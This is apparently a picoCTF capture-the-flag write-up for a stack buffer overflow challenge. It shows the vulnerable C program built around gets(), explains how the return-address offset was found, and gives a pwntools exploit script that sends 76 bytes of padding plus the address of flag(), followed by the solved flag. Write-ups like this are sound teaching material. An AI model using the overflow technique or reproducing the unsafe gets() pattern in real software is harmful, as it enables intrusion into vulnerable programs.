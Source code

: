 # OverFlow 1

## description

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](./vuln)? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. [Source](./vuln.c).

## solution

We can see that the ```vuln()``` function takes user input and stores it in a char array with a buffer size of 64.
There's also a flag() function that will print the flag if we can call it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

To call the flag function, we can overwrite the return address of the vulnerable function.
Consider the structure of the call stack:

```
Local variables
EBP
Return Address
Arguments
```

Because the stack grows downwards, anything we write thats longer than the space allocated for local variables will overwrite EBP then, arguments, then the return address.

We can see that the buffer size of the char array in ```vuln()``` is 64.
Some more space is reserved for other local variables, but we can start inputting 64 bytes, followed by some recognisable pattern, such as AAAABBBBCCCCDDDD...

Given this input, the program prints 0x44444444 as the return address.
We can also check the value of EBP using GDB and see that it is 0x43434343, from here we could infer that, because there were no arguments pushed to this stack, the next characters would be the return address.

A total of 80 bytes were required to completely overwrite the return address, including 76 bytes of padding, and a new 32-bit address.
By replacing the value 0x44444444 that's currently present in our input with the address of ```flag()```, we can redirect the program to the desired function.

We can use a tool like GDB or Radare2 to print a list of functions and find the address of the flag function.
In this case, it is 0x080485e6.

## exploit script

Using what we had discovered in the steps prior, we know that we need to send the program 76 bytes, followed by the address.
I'm using pwntools as usual to connect to the process, and I'm printing the address using the ```p32()``` function, which will automatically format it in little endian.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 76).encode() + p32(0x080485e6))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}```

